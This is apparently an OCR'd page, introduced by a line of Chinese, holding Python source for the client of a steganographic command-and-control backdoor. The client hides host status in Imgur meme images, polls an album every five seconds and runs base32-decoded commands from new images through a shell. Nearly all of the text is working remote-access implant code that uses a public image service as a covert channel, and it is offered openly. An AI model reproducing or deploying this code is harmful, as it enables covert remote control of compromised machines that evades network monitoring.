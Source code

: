 ```py

        random.choice(client.default_memes()).link
        last_message_datetime = send_command_message(client_dict['uuid'],
        client_dict['os'],
        random.choice(client.default_memes()).link)
```

以下是我们的客户端脚本：

```py
from imgurpython import ImgurClient
import StegoText
import ast, os, time, shlex, subprocess, base64, random, sys

def get_input(string):
    try:
        return raw_input(string)
    except:
        return input(string)

def authenticate():
    client_id = '<REPLACE WITH YOUR IMGUR CLIENT ID>'
    client_secret = '<REPLACE WITH YOUR IMGUR CLIENT SECRET>'

    client = ImgurClient(client_id, client_secret)
    authorization_url = client.get_auth_url('pin')

    print("Go to the following URL: {0}".format(authorization_url))
    pin = get_input("Enter pin code: ")

    credentials = client.authorize(pin, 'pin')
    client.set_user_auth(credentials['access_token'], credentials['refresh_token'])

    return client

client_uuid = "test_client_1"

client = authenticate()
a = client.get_account_albums("<YOUR IMGUR USERNAME>")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

steg_path = StegoText.hide_message(random.choice(client.default_memes()). link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'ready'}",  "Imgur1.png",True)
uploaded = client.upload_from_path(steg_path)
client.album_add_images(a[0].id, uploaded['id'])
last_message_datetime = uploaded['datetime']

while True:

    time.sleep(5) 
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['uuid'] == client_uuid:
            command = base64.b32decode(client_dict['command'])

            if command == "quit":
                sys.exit(0)

            args = shlex.split(command)
            p = subprocess.Popen(args, stdout=subprocess.PIPE, shell=True)
```